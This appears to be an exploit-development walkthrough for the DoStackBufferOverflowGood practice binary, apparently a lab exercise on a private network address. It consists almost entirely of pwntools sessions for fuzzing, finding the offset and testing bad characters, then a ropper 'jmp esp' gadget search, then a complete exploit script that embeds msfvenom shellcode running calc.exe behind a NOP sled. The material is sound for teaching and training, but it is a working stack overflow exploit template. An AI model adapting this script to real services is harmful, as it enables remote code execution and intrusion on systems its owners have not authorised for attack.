






# DoStackBufferOverflowGood

```
$ nc 192.168.122.186 31337
foo
Hello foo!!!
bar
Hello bar!!!
```

```py
In [1]: r = remote('192.168.122.186', 31337)
[x] Opening connection to 192.168.122.186 on port 31337
[x] Opening connection to 192.168.122.186 on port 31337: Trying 192.168.122.186
[+] Opening connection to 192.168.122.186 on port 31337: Done

In [2]: r.writeline('A' * 1000)
```



```py
In [3]: r = remote('192.168.122.186', 31337)
[x] Opening connection to 192.168.122.186 on port 31337
[x] Opening connection to 192.168.122.186 on port 31337: Trying 192.168.122.186
[+] Opening connection to 192.168.122.186 on port 31337: Done

In [4]: r.writeline(cyclic(1000, n=4))
```





```py
In [5]: cyclic_find(0x616d6261, n=4)
Out[5]: 146
```

```py
In [6]: r = remote('192.168.122.186', 31337)
[x] Opening connection to 192.168.122.186 on port 31337
[x] Opening connection to 192.168.122.186 on port 31337: Trying 192.168.122.186
[+] Opening connection to 192.168.122.186 on port 31337: Done

In [7]: data = bytes(range(1, 256))
   ...: r.writeline(data)
   ...:
```





```
$ ropper -f ./dostackbufferoverflowgood.exe --search 'jmp esp'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp esp

[INFO] File: ./dostackbufferoverflowgood.exe
0x080414c3: jmp esp;
```

```py
#!/usr/bin/env python3

from pwn import *


r = remote('192.168.122.186', 31337)

pad = b'A' * 146

# msfvenom -p windows/exec -b '\x00\x0a' -f python CMD=calc.exe
buf = b""
buf += b"\xba\xe8\x19\x31\x9d\xda\xda\xd9\x74\x24\xf4\x5e\x2b"
buf += b"\xc9\xb1\x31\x83\xc6\x04\x31\x56\x0f\x03\x56\xe7\xfb"
buf += b"\xc4\x61\x1f\x79\x26\x9a\xdf\x1e\xae\x7f\xee\x1e\xd4"
buf += b"\xf4\x40\xaf\x9e\x59\x6c\x44\xf2\x49\xe7\x28\xdb\x7e"
buf += b"\x40\x86\x3d\xb0\x51\xbb\x7e\xd3\xd1\xc6\x52\x33\xe8"
buf += b"\x08\xa7\x32\x2d\x74\x4a\x66\xe6\xf2\xf9\x97\x83\x4f"
buf += b"\xc2\x1c\xdf\x5e\x42\xc0\x97\x61\x63\x57\xac\x3b\xa3"
buf += b"\x59\x61\x30\xea\x41\x66\x7d\xa4\xfa\x5c\x09\x37\x2b"
buf += b"\xad\xf2\x94\x12\x02\x01\xe4\x53\xa4\xfa\x93\xad\xd7"
buf += b"\x87\xa3\x69\xaa\x53\x21\x6a\x0c\x17\x91\x56\xad\xf4"
buf += b"\x44\x1c\xa1\xb1\x03\x7a\xa5\x44\xc7\xf0\xd1\xcd\xe6"
buf += b"\xd6\x50\x95\xcc\xf2\x39\x4d\x6c\xa2\xe7\x20\x91\xb4"
buf += b"\x48\x9c\x37\xbe\x64\xc9\x45\x9d\xe2\x0c\xdb\x9b\x40"
buf += b"\x0e\xe3\xa3\xf4\x67\xd2\x28\x9b\xf0\xeb\xfa\xd8\x0f"
buf += b"\xa6\xa7\x48\x98\x6f\x32\xc9\xc5\x8f\xe8\x0d\xf0\x13"
buf += b"\x19\xed\x07\x0b\x68\xe8\x4c\x8b\x80\x80\xdd\x7e\xa7"
buf += b"\x37\xdd\xaa\xc4\xd6\x4d\x36\x25\x7d\xf6\xdd\x39"

nop = b'\x90' * 128

# 0x080414c3 ; jmp esp
ret = p32(0x080414c3) 

r.writeline(pad + ret + nop + buf)
r.close()
```

```
$ ./exploit.py
[+] Opening connection to 192.168.122.186 on port 31337: Done
[*] Closed connection to 192.168.122.186 port 31337
```



